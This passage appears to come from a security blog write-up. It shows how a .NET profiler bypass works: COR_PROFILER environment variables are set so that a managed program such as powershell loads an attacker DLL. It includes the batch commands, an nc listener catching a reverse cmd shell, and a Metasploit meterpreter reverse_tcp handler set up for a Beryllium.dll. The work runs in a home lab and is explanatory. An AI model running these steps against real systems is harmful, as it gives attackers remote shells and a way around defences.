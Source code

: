 ## Run It

### Custom Dll

Now I'll run the bypass. All I need to do is set the environment
variables, and then run an exe that's managed. IppSec showed `tzsync`.
`powershell` works too.

I'll start a `nc` listener on my Kali box, and then run the following
from a cmd terminal on my Windows VM:



    C:\Users\0xdf\Desktop>set "COR_ENABLE_PROFILING=1"
    C:\Users\0xdf\Desktop>set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
    C:\Users\0xdf\Desktop>set "COR_PROFILER_PATH=C:\users\0xdf\desktop\revshell.dll"
    C:\Users\0xdf\Desktop>powershell



`powershell` just hangs, but my listener connects:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.153.
    Ncat: Connection from 10.1.1.153:54719.
    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Users\0xdf\Desktop>



### Beryllium

I can do the same thing with the `Beryllium.dll`. I'll prep Metasploit
on my Kali host:



    root@kali# msfdb run
    ...[snip]...
    msf5 > handler -H eth0 -P 136 -p windows/x64/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.

    [*] Started reverse TCP handler on 10.1.1.41:136



Now, back in cmd, I'll run the following bat file:



    set "COR_ENABLE_PROFILING=1" 
    set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}" 
    set "COR_PROFILER_PATH=C:\users\0xdf\desktop\Beryllium.dll" 
    set "PORT=136"
    set "IP=10.1.1.41"
    powershell 
